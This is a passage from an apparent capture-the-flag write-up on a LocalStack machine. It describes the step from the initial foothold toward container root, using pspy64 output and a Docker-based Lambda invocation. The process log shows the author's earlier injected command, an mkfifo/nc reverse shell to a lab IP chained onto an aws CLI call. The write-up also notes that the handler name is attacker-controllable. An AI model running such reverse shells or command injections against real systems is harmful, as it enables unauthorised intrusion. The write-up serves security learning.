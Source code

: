 I can then grab the user flag from `/home/localstack`.

## Privilege Escalation

### Lambda Processes --> Container Root

This container did not have anything useful within it. I ran `pspy64` and the processes created when I used `aws` for the initial RCE:

```
(.venv) /tmp $ ./pspy64
2024/03/17 11:28:02 CMD: UID=1001 PID=481    | /bin/sh -c { test `which aws` || . .venv/bin/activate; }; aws --endpoint-url="http://localhost:4566" lambda list-event-source-mappings --function-name test;ping -c 1 10.10.14.18; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.18 443 >/tmp/f                                                                            
2024/03/17 11:28:02 CMD: UID=0    PID=25     | python bin/localstack start --host 
2024/03/17 11:28:02 CMD: UID=1001 PID=24     | python bin/localstack web 
2024/03/17 11:28:02 CMD: UID=1001 PID=23     | make web 
2024/03/17 11:28:02 CMD: UID=0    PID=22     | make infra 
2024/03/17 11:28:02 CMD: UID=1001 PID=21     | bash -c if [ "$START_WEB" = "0" ]; then exit 0; fi; make web 
2024/03/17 11:28:02 CMD: UID=0    PID=17     | tail -qF /tmp/localstack_infra.log /tmp/localstack_infra.err 
2024/03/17 11:28:02 CMD: UID=0    PID=15     | /usr/bin/python3.8 /usr/bin/supervisord -c /etc/supervisord.conf 
2024/03/17 11:28:02 CMD: UID=0    PID=106    | node /opt/code/localstack/localstack/node_modules/kinesalite/cli.js --shardLimit 100 --port 44705 --createStreamMs 500 --deleteStreamMs 500 --updateStreamMs 500 --path /var/localstack/data/kinesis
2024/03/17 11:30:48 CMD: UID=0    PID=556    | unzip -o -q /tmp/localstack/zipfile.924d85b0/original_lambda_archive.zip 
2024/03/17 11:28:02 CMD: UID=0    PID=1      | /bin/bash /usr/local/bin/docker-entrypoint.sh 
```

I noticed that there was a `.zip` file created. 

When I invoked my function, it would do a few more commands that were pretty long.

{% code overflow="wrap"%}

```
2024/03/17 11:31:31 CMD: UID=0    PID=568    | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler")";docker cp "/tmp/localstack/zipfile.924d85b0/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID";
```

{% endcode %}

The above simply created a Docker container in a subshell, and I was looknig for things ICould control. `index.handler` was the one input I could change.
